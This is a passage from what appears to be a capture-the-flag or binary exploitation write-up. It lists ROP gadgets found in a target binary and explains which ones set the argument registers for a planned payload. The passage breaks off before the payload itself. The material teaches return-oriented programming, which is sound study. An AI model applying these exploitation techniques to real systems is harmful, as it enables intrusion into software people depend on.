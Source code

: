 <span style="color:#D41919">0x0000000000401460</span>: <span style="color:#FF8A18"><b>mov</b></span> <span style="color:#EC0101"><b>rdi</b></span>, rax<span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>call</b></span> <span style="color:#E6E6E6">0x1030</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>nop</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>pop</b></span> <span style="color:#E6E6E6">rbp</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span>
<span style="color:#D41919">0x00000000004011be</span>: <span style="color:#FF8A18"><b>mov</b></span> <span style="color:#EC0101"><b>rdi</b></span>, rax<span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>call</b></span> <span style="color:#E6E6E6">0x1040</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>nop</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>pop</b></span> <span style="color:#E6E6E6">rbp</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span>
<span style="color:#D41919">0x00000000004015eb</span>: <span style="color:#FF8A18"><b>mov</b></span> <span style="color:#EC0101"><b>rdi</b></span>, rax<span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>call</b></span> <span style="color:#E6E6E6">0x1060</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>mov</b></span> <span style="color:#E6E6E6">eax, 0</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>leave</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span>
<span style="color:#D41919">0x00000000004010f6</span>: <span style="color:#FF8A18"><b>or</b></span> <span style="color:#E6E6E6">dword ptr [</span><span style="color:#EC0101"><b>rdi</b></span> + 0x405060], edi<span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>jmp</b></span> <span style="color:#E6E6E6">rax</span><span style="color:#277FFF"><b>; </b></span>
<span style="color:#D41919">0x000000000040165b</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rdi</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span>
{% endccb %}

Check it out -- at the bottom of the code block (`0x40165b`) there's a perfect gadget for us to use! Let's find ones for the rest of them:

{% ccb terminal:true html:true %}
<span style="color:#D41919">0x0000000000401659</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rsi</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>pop</b></span> <span style="color:#E6E6E6">r15</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span><br><span class="line"><span style="color:#D41919">0x00000000004011ce</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rdx</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span></span><br><span class="line"><span style="color:#D41919">0x00000000004011d8</span>: <span style="color:#FF8A18"><b>pop</b></span> <span style="color:#EC0101"><b>rcx</b></span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>pop</b></span> <span style="color:#E6E6E6">r8</span><span style="color:#277FFF"><b>; </b></span><span style="color:#FF8A18"><b>ret</b></span><span style="color:#277FFF"><b>; </b></span></span>
{% endccb %}

The first `pop rsi; pop r15;` isn't ideal, as it's popping a redundant register -- we'll need to repopulate it with 8 bytes of garbage. On the other hand, the `pop rcx; pop r8;` takes care of two registers at once!

With that, we can draw up a visual of what our final payload will look like:
